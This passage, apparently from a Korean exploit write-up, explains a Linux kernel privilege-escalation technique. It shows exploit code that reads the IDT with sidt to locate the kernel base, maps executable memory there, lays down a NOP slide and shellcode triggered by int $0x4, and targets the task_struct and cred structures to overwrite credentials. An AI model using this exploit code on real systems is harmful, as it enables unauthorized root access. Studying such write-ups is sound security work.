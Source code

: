```
target_addr: 0xffffffff81df8048 <--- *
$
```

이 정도로 바꿔놓고 `int $0x4` 를 발생시키면, kernel panic 이 날텐데, 대충 코드가 어디로 튈지 알 수 있다.

```
#define KSIZE       0x002000000 // 32 megabytes
```

exploit code 상에서는
`kbase = idt.addr & 0xff000000` 로 해서, 0x02000000 바이트를 확보한다.

```
asm volatile("sidt %0" : "=m" (idt));
kbase = idt.addr & 0xff000000;

code = mmap((void*)kbase,KSIZE, PROT_READ|PROT_WRITE|PROT_EXEC,
        MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);

memset(code, 0x90, KSIZE);

code += (KSIZE-1024);
memcpy(code,&fix_idt_and_overwrite_creds, 1024);
memcpy(code-shellcode_sz,shellcode,shellcode_sz);
```

로 NOP slide + shellcode 를 깐다.

#### Shellcode

```
swapgs
callq <shellcode + 0xd>
swapgs
iretq
```

인터럽트 핸들러는 `swapgs` 로 들어가야한다. 그리고 `iretq` 로 리턴.

#### task_struct & cred

target 이 되는 구조체.

우선 kernel stack 에서 thread_info 를 찾는다. thread_info 에서 task_struct 을 찾는다.

```
struct thread_info {
    struct task_struct *task;
    ...

struct task_struct {
    const struct cred *real_cred;
    ...

struct cred {
    uid_t       uid;
    gid_t       gid;
    uid_t       suid;
    gid_t       sgid;
    uid_t       euid;
    gid_t       egid;
    uid_t       fsuid;
    gid_t       fsgid;
    unsigned    securebits;
    kernel_cap_t    cap_inheritable;
    kernel_cap_t    cap_permitted;
    kernel_cap_t    cap_effective;
    ...
```